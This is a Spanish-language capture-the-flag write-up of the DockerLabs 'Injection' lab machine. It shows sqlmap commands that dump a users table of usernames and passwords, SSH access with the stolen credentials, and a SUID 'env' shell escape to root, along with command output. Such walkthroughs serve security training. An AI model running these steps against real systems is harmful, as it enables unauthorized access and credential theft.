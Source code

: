 ```yaml
---
title: CTF-DockerLabs-Injection
published: true
---
```


## WriteUps maquina Injection de DockerLabs

---
tags:
  - CTF
  - estado/completado
  - plataforma: [DockerLabs]
  - dificultad: Muy fácil
  - autor: [ElPinguinoDeMario]

# Datos

[!INFO] Injection
  -  **Nombre:** Injection
  -  **SO:** Linux
  -  **Dificultad:** Muy fácil
  -  **Enlace:** [Dockerlabs](https://dockerlabs.es/)

[!TODO] Objetivo
  - 🚩Ingresar a la maquina como algún usuario.
  - 🚩Elevar privilegios una vez obtenido el acceso.

El primer paso consiste en iniciar la máquina, lo cual es tan sencillo como ejecutar el siguiente comando después de haber descargado la maquina:

```bash
└─$ sudo bash auto_deploy.sh injection.tar
```

# Reconocimiento

  - Una vez iniciada la maquina, el mismo script de inicio me da la dirección IP a lo cual procedo a realizar un escaneo de puertos de la maquina y el resultado es el siguiente:

```bash
└─# nmap 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 15:28 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

Al darme cuenta que existe el `puerto 80` abierto, procedo a visitar desde el navegador la dirección IP de la maquina y me encuentro con una pantalla de login, donde es requerido un `User` y un `Password` que al chequear el código fuente, no encuentro nada interesante, pero si aplico la misma lógica que en las maquinas anteriores, respecto al nombre, ejemplo:

- [[Upload]] tenia que ver con la carga de archivos.
- [[Vacaciones]] con las vacaciones de juan.

Puedo pensar entonces que `injection` tenga que ver con `Inyección SQL` quizás, y para comprobar esto, voy a probar una herramienta que mi buen amigo El Pingüino de Mario enseña a utilizar en la [Academia de Ciberseguridad y Hacking Ético](https://elrincondelhacker.es/) El Rincón del Hacker y es `SQLmap` para ello utilizo el siguiente comando:

```bash
sqlmap -u http://172.17.0.2 --forms --dbs --batch
```

Lo que busco con este comando es que me muestre todas las base de datos que se encuentran en este sistema, el resultado es el siguiente:

```bash
[15:44:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL   -= 5.0 (MariaDB fork)
[15:44:52] [INFO] fetching database names
[15:44:52] [INFO] retrieved: 'information_schema'
[15:44:52] [INFO] retrieved: 'register'
[15:44:52] [INFO] retrieved: 'sys'
[15:44:52] [INFO] retrieved: 'mysql'
[15:44:52] [INFO] retrieved: 'performance_schema'
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] register
[*] sys
```

Entonces de acuerdo a ello, ya conozco que existen 5 bases de datos, que estamos ante un Ubuntu 22.04 con un Apache 2.4.52 y usando MariaDB.

Ahora usando la misma herramienta voy a seleccionar la base de datos `register` y que me muestre las tablas de esa bd con el siguiente comando:

```bash
sqlmap -u http://172.17.0.2 --forms -D register --tables --batch

```

Ya tengo la base de datos `register`, tengo la tabla `users` y ahora requiero las columnas, que lo saco así:

```
sqlmap -u http://172.17.0.2 --forms -D register -T users --columns --batch
```

Y ya por ultimo seria obtener los datos de esta columna con el siguiente comando:

```
sqlmap -u http://172.17.0.2 --forms -D register -T users -C passwd,username --dump --batch
```

Con esto logro obtener un usuario y contraseña validos para acceder al formulario web que aparece en el sitio web.

![dylanInjection.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/dylanInjection.png)

  - **Nota:** Si deseas conocer más información sobre inyecciones SQL o el uso de SQLmap, te invito a visitar la [Academia de Ciberseguridad y Hacking Ético](https://elrincondelhacker.es/) donde te enseñan de estos y otros temas.

# Acceso por SSH

  - Lo interesante es que usando las credenciales encontradas con SQLmap he logrado ingresar por SSH a esta maquina, así que estando con el usuario `dylan` por SSH procedo a realizar un `sudo -l` y para mi sorpresa el resultado es:

`-bash: sudo: command not found`

Paso a revisar el directorio `/var/www/html` para chequear los permisos y los archivos allí, pero no encuentro nada especial, así que lo otro que intento es: `find / -perm -4000 -ls 2  -/dev/null` y el resultado es el siguiente:

```bash
dylan@e4df575277c7:~$ find / -perm -4000 -ls 2  -/dev/null
  1464485     72 -rwsr-xr-x   1 root     root        72712 Feb  6 13:54 /usr/bin/chfn
  1464553     72 -rwsr-xr-x   1 root     root        72072 Feb  6 13:54 /usr/bin/gpasswd
  1464611     48 -rwsr-xr-x   1 root     root        47480 Feb 21  2022 /usr/bin/mount
  1464627     60 -rwsr-xr-x   1 root     root        59976 Feb  6 13:54 /usr/bin/passwd
  1464717     36 -rwsr-xr-x   1 root     root        35192 Feb 21  2022 /usr/bin/umount
  1464491     44 -rwsr-xr-x   1 root     root        44808 Feb  6 13:54 /usr/bin/chsh
  1464691     56 -rwsr-xr-x   1 root     root        55672 Feb 21  2022 /usr/bin/su
  1484031     44 -rwsr-xr-x   1 root     root        43976 Jan  8 15:56 /usr/bin/env
  1464616     40 -rwsr-xr-x   1 root     root        40496 Feb  6 13:54 /usr/bin/newgrp
  1469073     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  1469133    332 -rwsr-xr-x   1 root     root         338536 Jan  2 17:54 /usr/lib/openssh/ssh-keysign
```

Me voy para nuestra plataforma favorita [GTFOBins](https://gtfobins.github.io/) y busco uno a uno los scripts del listado para encontrar alguno que se pueda aprovechar con los `SUID`

- **/usr/bin/chfn:** No binary matches...
- **/usr/bin/gpasswd:** No binary matches...
- **/usr/bin/mount:** Sudo
- **/usr/bin/passwd:** No binary matches...
- **/usr/bin/chfn:** No binary matches...
- **/usr/bin/umount:** No binary matches...
- **/usr/bin/chsh:** No binary matches...
- **/usr/bin/su:** Sudo
- **/usr/bin/env:** Shell - SUID - Sudo
# Escalada de privilegios

Y allí encontramos, con mucha paciencia el script vulnerable `/usr/bin/env` a `SUID`, así que según el sitio [GTFOBins] si coloco:

```
sudo install -m =xs $(which env) .
ó
./env /bin/sh -p
```

Puedo acceder como root, pero al colocar el primero no me funciono pues el sudo esta desactivado, pero el segundo tampoco me funciono, pues debo colocar la ruta completa así y listo:

```
/usr/bin/env /bin/sh -p
```

Y allí si estamos dentro (¡PWNED!)

# Comandos

[!IMPORTANT] Resumen de comandos utilizados
  - `sudo bash auto_deploy.sh injection.tar`
  - `nmap 172.17.0.2`
  - `sqlmap -u http://172.17.0.2 --forms --dbs --batch`
  - `sqlmap -u http://172.17.0.2 --forms -D register --tables --batch`
  - `sqlmap -u http://172.17.0.2 --forms -D register -T users --columns --batch`
  - `sqlmap -u http://172.17.0.2 --forms -D register -T users -C passwd,username --dump --batch`
  - `find / -perm -4000 -ls 2  -/dev/null`
  - `/usr/bin/env /bin/sh -p`


```
¡Que la fuerza del hacking ético nos acompañe! :)
```

|   |
|:--|
|   |